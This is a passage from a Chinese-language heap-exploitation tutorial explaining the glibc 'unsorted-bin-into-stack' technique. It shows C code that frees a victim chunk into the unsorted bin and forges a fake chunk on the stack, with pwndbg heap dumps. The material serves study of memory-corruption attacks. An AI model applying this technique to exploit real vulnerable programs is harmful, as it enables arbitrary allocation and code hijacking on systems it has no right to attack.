 unsorted-bin-into-stack 通过改写 unsorted bin 里 chunk 的 bk 指针到任意地址，从而在栈上 malloc 出 chunk，并且还可以得到heap基地址信息。

#### 攻击过程

前期，先malloc一个chunk作为攻击对象victim，然后在malloc另外一个chunk避免free(victim)的时候，造成其和top chunk合并。

```c++
//Allocating the victim chunk
intptr_t* victim = malloc(0x100);
//Allocating another chunk to avoid consolidating the top chunk with the small one during the free()
intptr_t* p1 = malloc(0x100);
```

接下来`free(victim)`，由于victim不在fast bin范围内，因此被放入unsorted bin中：

```c++
fprintf(stderr, "Freeing the chunk %p, it will be inserted in the unsorted bin\n", victim);
free(victim);
/*
pwndbg> unsortedbin 
unsortedbin
all: 0x7ffff7dd1b78 (main_arena+88) —▸ 0x602000 ◂— 0x7ffff7dd1b78

pwndbg> heap
0x602000 PREV_INUSE {   //chunk victim
  prev_size = 0x0, 
  size = 0x111, 
  fd = 0x7ffff7dd1b78 <main_arena+88>, 
  bk = 0x7ffff7dd1b78 <main_arena+88>, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
……
*/
```

然后我们要在栈上伪造一个chunk，让其加入unsorted bin中，并能使其满足下一个malloc分配。

```c++
intptr_t stack_buffer[4] = {0}; //首地址为chunk头地址
//Create a fake chunk on the stack");
//Set size for next allocation and the bk pointer to any writable address
//创建一个size=0x110的chunk，
stack_buffer[1] = 0x100 + 0x10;
//并且设置一个bk指针，指向任意可写地址【出发unlink的时候会对该地址写】
stack_buffer[3] = (intptr_t)stack_buffer;
/*
pwndbg> print stack_buffer 
$4 = {0x0, 0x110, 0x0, 0x7fffffffddf0}
pwndbg> print &stack_buffer 
$5 = (intptr_t (*)[4]) 0x7fffffffddf0
*/
```
